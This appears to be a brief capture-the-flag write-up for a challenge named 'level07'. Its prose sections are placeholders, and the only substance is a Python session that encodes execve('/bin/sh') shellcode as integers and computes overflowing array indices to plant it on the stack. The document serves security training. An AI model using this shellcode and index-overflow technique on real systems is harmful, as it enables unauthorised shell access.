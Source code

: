 # level07

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Here everything concerning the analysis of the binary.

## Exploit

Here everything concerning the exploit description.

```python
>>> print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
j
 X�Rh//shh/bin��1�̀
>>> print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
j
 X�Rh//shh/bin��1�̀
>>> 0x6a0b5899
1779128473
>>> 0x52682f2f
1382559535
>>> 0x7368682f
1936222255
>>> (2**32 + (4 * 3)) / 4
1073741827
>>> 0x62696e89
1651076745
>>> 0xe331c9cd
3811690957
>>> (2**32 + (4 * 6)) / 4
1073741830
>>> 0x80000000
2147483648
>>> 0xffffd534
4294956340
>>> (2**32 + (4 * 114)) / 4
1073741938
>>> 0xffffd534 + 4
4294956344
>>>
```